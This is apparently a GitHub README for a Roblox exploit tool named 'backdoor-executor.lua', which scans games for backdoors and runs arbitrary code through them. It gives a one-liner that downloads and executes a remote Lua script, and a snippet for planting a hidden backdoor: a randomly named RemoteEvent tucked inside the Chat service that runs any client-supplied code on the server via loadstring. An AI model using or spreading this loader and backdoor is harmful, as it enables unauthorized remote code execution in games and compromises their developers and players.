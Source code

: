 # backdoor-executor.lua
(pls help me get a new name for this script)
might be better than [backdoor.exe](https://github.com/iK4oS/backdoor.exe).

## Info
This script is for [Roblox](https://roblox.com) scanning backdoors and executing them within a gui.
### Requirements
- A non skiddy brain
- Decent executor that supports filesystem functions (for config)
### Script
Just use the script below and execute it.
```lua
loadstring(game:HttpGetAsync("https://raw.githubusercontent.com/jLn0n/created-scripts-public/main/backdoor-executor/backdoor-executor.lua"))()
```

## Adding a backdoor in your game
Get access to a game in Roblox Studio, create a script and paste the few lines of code below in the script.
Make sure to enable `Loadstring` in `ServerScriptServices`. (credits to [backdoor.exe](https://github.com/iK4oS/backdoor.exe) for copying this thingy.)
```lua
local Remote = Instance.new("RemoteEvent")
Remote.Name = tostring(math.random(100000000,1000000000))
Remote.Parent = game:GetService("Chat"):WaitForChild("ClientChatModules").MessageCreatorModules
Remote.OnServerEvent:Connect(function(player, execute)
	loadstring(execute)()
end)
```
